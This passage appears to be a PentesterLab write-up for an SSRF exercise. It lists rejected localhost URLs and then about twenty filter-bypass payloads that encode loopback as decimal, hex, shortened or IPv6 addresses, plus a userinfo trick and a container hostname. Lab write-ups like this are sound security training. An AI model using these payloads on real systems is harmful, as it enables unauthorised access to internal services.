 #### 4.1. SSRF 3 (Pentesterlab)

Failed attempts:
```
$target/?url=http://localhost:1234 (Invalid URL)
$target/?url=http://127.0.0.1:1234 (Invalid URL)
```

Solution is to re-write `localhost` IP address under different formats.

Decimal IP - converts to `0.0.0.0`:
```
$target/?url=http://0:1234
$target/?url=http://0x00:1234
$target/?url=http://0000:1234
$target/?url=http://00000000000000000000:1234
```

Decimal IP - converts to `127.x.x.x`:
```
$target/?url=http://2130706433:1234
$target/?url=http://127.1:1234
$target/?url=http://127.127.127.127:1234
$target/?url=http://127.0.0.0:1234
$target/?url=http://127.x.y.z:1234
$target/?url=http://127.1.1.1:1234\@@127.2.2.2:1234/
$target/?url=http://0x7F000001:1234
```

Other:
```
$target/?url=http://0.0.0.0:1234
$target/?url=http://172.17.0.56:1234
$target/?url=http://645dfd9b516b:1234 - where `645dfd9b516b` is the hostname
```

IPV6
```
$target/?url=http://[::1]:22
$target/?url=http://[0:0:0:0:0:FFFF:7F00:0001]:22
$target/?url=https://[2604:1380:1000:af00::1]
```
